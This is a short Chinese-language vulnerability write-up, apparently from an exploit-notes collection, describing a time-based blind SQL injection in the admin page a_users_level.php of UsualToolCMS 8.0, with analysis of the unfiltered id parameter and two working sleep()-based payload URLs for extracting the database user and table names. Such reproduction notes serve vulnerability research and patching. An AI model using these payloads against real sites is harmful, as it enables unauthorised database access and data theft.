 ```yaml
---
title: UsualToolcms 8.0 后台盲注
id: zhfly3215
---
```


# UsualToolcms 8.0 后台盲注

## 一、漏洞简介

## 二、漏洞影响

UsualToolCMS-8.0-Release

## 三、复现过程

### 漏洞分析

./cmsadmin/a_users_level.php第19行和第26行，id参数可控

![image](../img/cc86e01958ff9282f9738fbeebca0a62.png)

从get处获取id参数，id存在无任何过滤，当postt id时，通过sqlcheck函数进行过滤，来到文件./class/UsualToolCMS_INC.php第33行，将(',,",null)转义，34行调用sqlchecks函数，比没过滤sql，然而a_users_level.php第19行id不是字符

![image](../img/4ceef9da75cfdd3a07f2897fcb32d3df.png)

### 复现

可以利用时间盲注来进行sql注入攻击，payload如下：

```
a.当前数据库：http://0-sec.org:8080/UsualToolCMS/cmsadmin/a_users_level.php?x=m&id=2 and if(ascii(substr(user(),1,1))=114,sleep(6),1) 
```

```
b.表：http://0-sec.org:8080/UsualToolCMS/cmsadmin/a_users_level.php?x=m&id=2 and if(ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1))>30,sleep(6),1) 
```

![image](../img/e5ce76b6ba2159aab96074e01842892d.png)

时间盲注验证脚本

![image](../img/671fc39af2dd6bd53e35b0d6c48a7c92.png)

![image](../img/7ae951207a79bfc45293e610e6ea8f66.png)